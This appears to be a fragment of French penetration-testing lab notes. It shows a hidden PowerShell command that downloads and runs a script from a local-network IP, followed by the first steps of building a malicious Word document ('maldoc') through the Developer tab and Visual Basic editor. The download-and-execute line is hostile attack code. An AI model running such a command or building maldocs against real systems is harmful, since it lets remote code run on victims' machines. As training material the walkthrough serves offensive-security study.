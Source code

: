 `powershell -Sta -Nop -Window Hidden -Command "iex (New-Object Net.WebClient).DownloadString('http://192.168.1.94/test.ps1')"`

6. Création d'un maldoc Word

Ouvrir Word, clic droit sur le ruban et 'Personaliser le ruban'

![e747eab001e295e23b54ca796dc4705f.png](/img/edced98199114932a883419ef076194d.png)

Cocher 'développeur'

![0cd1193498a933a1ba28966185fe9fe1.png](/img/bf8ee35bc2ef4b2faa67604c19db2ff2.png)

Aller dans l'ongler développeur puis Visual Basic

![87458c299129a4fc1e11bcc650e9ba95.png](/img/2359aef8466b42daacbb07d97bb49e49.png)
